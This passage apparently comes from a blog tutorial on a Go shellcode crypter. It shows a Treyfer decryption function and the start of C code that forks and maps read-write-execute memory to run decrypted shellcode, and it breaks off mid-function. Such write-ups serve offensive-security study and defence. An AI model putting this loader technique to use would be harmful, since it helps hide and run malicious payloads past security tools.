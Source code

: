 - https://stackoverflow.com/questions/37303176/encryption-implementation-confusing-results
*/
func treyfer_decrypt(text [8]byte, key [8]byte, sbox [256]byte) [8]byte {

    var top uint8 = 0;
    var bottom uint8 = 0;

    for j := uint(0); j &lt; NUM_ROUNDS; j++ {
        for i := 7; i &gt;= 0; i-- {

            top = text[i] + key[i];
            top = sbox[top];

            bottom = text[(i + 1) % 8];
            bottom = (bottom &gt;&gt; 1) | (bottom &lt;&lt; 7);

            text[(i + 1) % 8] = bottom - top;
        }
    }

    return text
       
}</code></pre><figcaption>Decryption function</figcaption></figure><p>Similarly to the encryption function, this one accepts the same three arguments, and returns eight bytes of decrypted data.</p><h2 id="shellcode-execution">Shellcode execution</h2><p>It seems that executing shellcode from Go isn't as straightforward as in C or C++. For this reason, I had to search for a workaround.</p><p>In the end, I found a <a href="https://medium.com/syscall59/a-trinity-of-shellcode-aes-go-f6cec854f992">method</a> that imports some C code which in turn uses the mmap and memcpy functions to move the shellcode to a new executable memory region, and then executes it.</p><p>Below is the C code:</p><figure class="kg-card kg-code-card"><pre><code class="language-go">/*
#include &lt;stdio.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;string.h&gt;
#include &lt;unistd.h&gt;

void run_shellcode(char *shellcode, size_t shellcode_length)
{
    if(fork())
    {
        return;
    }

    unsigned char *ptr;
    ptr = (unsigned char *) mmap(
        0,
        shellcode_length,
        PROT_READ|PROT_WRITE|PROT_EXEC,
        MAP_ANONYMOUS | MAP_PRIVATE,
        -1,
        0
    );

    if(ptr == MAP_FAILED)
    {
        perror("mmap");
        return;
    }
